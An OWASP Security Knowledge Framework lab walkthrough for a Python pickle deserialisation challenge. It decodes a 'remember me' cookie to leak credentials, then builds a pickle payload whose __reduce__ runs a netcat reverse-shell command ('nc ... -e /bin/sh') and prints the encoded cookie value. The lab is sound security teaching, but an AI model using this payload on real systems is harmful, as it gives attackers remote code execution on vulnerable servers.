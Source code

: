 # Deserialisation Pickle - 2

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:des-pickle-2
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-pickle-2
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

Serialisation is used by application to easely store an object and transfer it across systems and networks. If an application needs to store an instance of a class, it can use serialisation to get a string representation of this object. When the application or an other application needs to use the instance again, it will unserialise the string to get back the object.

Obviously, an attacker can tamper with a string that will be deserialised and potentially trigger unexpected behaviour in the application. Depending on the language and library used, this unexpected behaviour can go from arbitrary object creation to remote code execution.

Some use cases for python pickle: 1) saving a program's state data to disk so that it can carry on where it left off when restarted (persistence) 2) sending python data over a TCP connection in a multi-core or distributed system (marshalling) 3) storing python objects in a database 4) converting an arbitrary python object to a string so that it can be used as a dictionary key (e.g. for caching & memorization).

Lets start the application and register a new user

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/DES-Pickle-2/1.png)

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/DES-Pickle-2/2.png)

Please note that (for convenience) your password will be reset if the user already exists. Also note that the username and password are case sensitive.

Now that we have valid credentials, we can login:

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/DES-Pickle-2/3.png)

You can check the 'remember me' checkbox if you want to login next time without providing credentials.

After providing the correct credentials we're logged in:

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/DES-Pickle-2/4.png)

To logout, use the link/button in the upper right corner.

The goal is to find where the application uses serialization and create your own serialized object to spawn a reverse shell.

## Exploitation

Once we've successfully logged in using the rememberme checkbox, we can return to the login screen any time and login just by clicking the 'Submit Button' without providing credentials:

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/DES-Pickle-2/5.png)

This results in the following request and response:

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/DES-Pickle-2/6.png)

This works because we received a rememberme cookie during our initial login:

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/DES-Pickle-2/7.png)

As you might have guessed, the remember me cookie is a serialized object, (probably containing your credentials) which will be deserialised and verified, once you submit the login form. This functionality provides you an easy login without entering credentials, but it is not without risk ! If we can deserialise it, the credentials will be leaked. In addition, we can create our own object that that will be deserialized and instantiated if we submit it to the webserver.

If we know or guess the used technology (in this case:pickle serialisation in python), we can try to deserialise the object

From wikipedia: The pickle module implements binary protocols for serializing and de-serializing a Python object structure. “Pickling” is the process whereby a Python object hierarchy is converted into a byte stream, and “unpickling” is the inverse operation, whereby a byte stream (from a binary file or bytes-like object) is converted back into an object hierarchy

```python
import pickle, base64
b64 = 'gASVQAAAAAAAAACMCF9fbWFpbl9flIwDdXNylJOUKYGUfZQojAh1c2VybmFtZZSMBHVzZXKUjAhwYXNzd29yZJSMBHVzZXKUdWIu'
print(pickle.loads(base64.b64decode(b64)).__class__)
```

This shows us the object is an instance of the usr class. So we can enumerate the properties of the object as follows:

```python
import pickle, base64
class usr(object):
    pass

a= usr()
b64 = 'gASVQAAAAAAAAACMCF9fbWFpbl9flIwDdXNylJOUKYGUfZQojAh1c2VybmFtZZSMBHVzZXKUjAhwYXNzd29yZJSMBHVzZXKUdWIu'
a = pickle.loads(base64.b64decode(b64))
print(dir(a))
```

The dir() function returns all properties and methods of the specified object, without the values. This function will return all the properties and methods, even built-in properties which are default for all object.

```
This will output the following:
['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', 'password', 'username']
```

The attributes we were looking for are 'password' and 'username'

Putting it all toghther:

```python
import pickle, base64
class usr(object):
    pass

a= usr()
b64 = 'gASVQAAAAAAAAACMCF9fbWFpbl9flIwDdXNylJOUKYGUfZQojAh1c2VybmFtZZSMBHVzZXKUjAhwYXNzd29yZJSMBHVzZXKUdWIu'
a = pickle.loads(base64.b64decode(b64))
print(a.username)
print(a.password)
```

Although the above was nice to understand what serialization comprehends, we still need to exploit the vulnerability ;-)

To exploit the vulnerability we'll create an object that runs a system command to start a reverse shell. After instanciating the object, we serialize it and base64 encode it. This output will be our payload.

```python
import pickle, base64,os

class skf(object):
  def __reduce__(self):
    return (os.system,("nc -nv 127.0.0.1 1234 -e /bin/sh",))

a = skf()
ser = pickle.dumps(a)
print (base64.b64encode(ser))
```

_Note: If Netcat (nc) program is not available, change the argument passed at os.system call to sleep(5)._

This will yield the following output:

```
gANjcG9zaXgKc3lzdGVtCnEAWCAAAABuYyAtbnYgMTI3LjAuMC4xIDEyMzQgLWUgL2Jpbi9zaHEBhXECUnEDLg==
```

Now we prepare a net cat listner on our machine, ready to receive the reverse shell:

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/DES-Pickle-2/8.png)

We can submit our malicious payload in Burp Suite Repeater by replacing the cookie value with the one we generated above:
![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/DES-Pickle-2/9.png)

A revers shell is is connected:
![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/DES-Pickle-2/10.png)

## Additional sources

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html" %}
